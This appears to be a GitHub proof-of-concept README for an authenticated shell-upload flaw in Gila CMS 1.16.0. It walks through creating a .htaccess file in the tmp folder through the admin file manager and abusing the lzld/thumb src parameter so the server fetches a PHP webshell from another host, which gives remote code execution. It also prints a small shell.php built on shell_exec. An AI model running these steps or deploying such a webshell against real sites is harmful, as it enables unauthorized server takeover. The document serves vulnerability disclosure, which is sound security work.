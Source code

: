 # Gila-CMS-1.16.0-shell-upload

Author: jkana
----
1.Login as administrator or any users have logs permission

2.Access to **http://IP/admin/fm?f=tmp/** . For example:
```http://192.168.0.105:1234/gila16/admin/fm?f=tmp/```

![](https://github.com/jkana/Gila-CMS-1.16.0-shell-upload/raw/main/Images/1.JPG)

3.Click **+File** and create **.htaccess**:

![](https://github.com/jkana/Gila-CMS-1.16.0-shell-upload/raw/main/Images/2.JPG)

4.Use this URL for downloading shell to gila's tmp directory **http://IP/lzld/thumb?size=600&src=SHELL_URL** .For example:
```http://192.168.0.105:1234/gila16/lzld/thumb?size=600&src=http://192.168.0.105:1234/files/shell.php```

5.We can check shell name with **http://IP/admin/fm?f=tmp/**

![](https://github.com/jkana/Gila-CMS-1.16.0-shell-upload/raw/main/Images/3.JPG)

6.Access to webshell and got RCE!

![](https://github.com/jkana/Gila-CMS-1.16.0-shell-upload/raw/main/Images/4.JPG)

----
## shell.php
```
<?php
$output = shell_exec('ipconfig');
echo "<pre>$output</pre>";
?>
```

